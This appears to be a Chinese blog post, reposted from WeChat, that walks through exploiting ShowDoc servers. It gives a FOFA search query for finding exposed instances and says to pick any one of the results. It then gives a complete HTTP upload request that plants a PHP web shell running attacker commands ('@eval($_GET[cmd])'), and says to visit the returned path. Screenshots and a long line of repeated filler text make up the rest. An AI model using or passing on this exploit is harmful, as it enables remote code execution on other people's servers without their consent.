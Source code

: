 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/oPhV-EmKZEDAxyZm4HuzUA)

fofa 语句：  

app="ShowDoc"

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0jSV7R0yszj5PhnQFuJ2QR2Apry5cLjhibpVekap8rib1X0IdoRonyooib700Ldx1vuiax1PAQYsbBKQ/640?wx_fmt=png)

我们随便点一个进去  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0jSV7R0yszj5PhnQFuJ2QRJPQa49tkKaZX0E7u5o7lU9jIoBpPFGpGrmDHVm1zA2licTw0VX5vjcA/640?wx_fmt=png)

接着我们使用 POC

```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Content-Length: 259

----------------------------921378126371623762173617
Content-Disposition: form-data; 
Content-Type: text/plain

<?php echo '123_test';@eval($_GET[cmd])?>
----------------------------921378126371623762173617--
```

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0jSV7R0yszj5PhnQFuJ2QRFXmd7c7XwPsicAVjNcB3ol0YSlwXmuxyocicW1aW0ptTWNkYzawW6bNA/640?wx_fmt=png)

response 包里有路径，直接访问就行  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0jSV7R0yszj5PhnQFuJ2QR4punwQqLSRbicibzicLlZ4Q40s7V7c2h4L77ahumm5ibLy7xBMNFx9TG3w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0jSV7R0yszj5PhnQFuJ2QRgScs5IMq5knQynvX6rsZSMAwIIJ8KSnqODt04mH9FPq9OwDMoiaib9ibg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0jSV7R0yszj5PhnQFuJ2QRnRhuSoAE3Oz51Nia1tx6Kj1mJZJYHo0VEP8l3EQzL6kZT0f6oia57RTg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0jSV7R0yszj5PhnQFuJ2QRicJFcLtUXGJHGU8G3NekHomNwhODPOJMl5UcZUOibmLAsuy5Zt3RibGMQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0jSV7R0yszj5PhnQFuJ2QRd5d1qrVWhKJg8UnGHjQ1UbLjMhQsmr9JsfXhWCaoiaF6N5u1GLzfcgQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0jSV7R0yszj5PhnQFuJ2QR54H7RyL5icGWPfflsoNO5bHciaGkSJPoia3wD3WUFPx9epYh028q6XeeA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2TUW3IicCMgLhsAW8cEUB8FKV3NktCRVJ7W14sblwk73stL4P86DViaCoG069BgrcIFVZShmW6ZbMA/640?wx_fmt=png)

凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数
